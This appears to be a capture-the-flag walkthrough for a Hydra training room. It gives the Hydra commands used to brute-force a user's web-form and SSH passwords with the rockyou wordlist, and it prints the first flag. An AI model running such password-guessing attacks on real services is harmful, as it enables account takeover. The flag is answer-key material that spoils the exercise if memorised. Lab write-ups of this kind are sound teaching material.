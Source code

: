 **Task 2 - Using Hydra**

*Q1: Use Hydra to bruteforce molly's web password. What is flag 1?*

A: Its time to use hydra to crack some passwords! We are going to enter the following into the Linux command line: 

*hydra -l molly -P /root/Tools/wordlists/rockyou.txt http-post-form "/:username=^USER^&password=^PASS^:F-incorrect" -V. 

Let Hydra run. It may take a little bit. Bruteforcing requires a fair amount of processing power. You can also add *-t x* to the end of the command, where x is the number of threads you would like to bruteforce in parallel. 

**`2673a7dd116de68e85c48ec0b1f2612e`** is our answer once we connect to the website, and login using molly's credentials which is our target.

![alt text](<Images/hydra-fig1.png>)

*Q2: Use Hydra to bruteforce molly's SSH password. What is flag 2?*

A: Once again, time to use hydra. Let it run:

*hydra -l molly -P /root/Tools/wordlists/rockyou.txt -t 4 ssh*

Once it is run, time to connect via ssh, and read it out: 

![alt text](<Images/hydra-fig2.png>)
That's our answer! **Thanks for reading!**







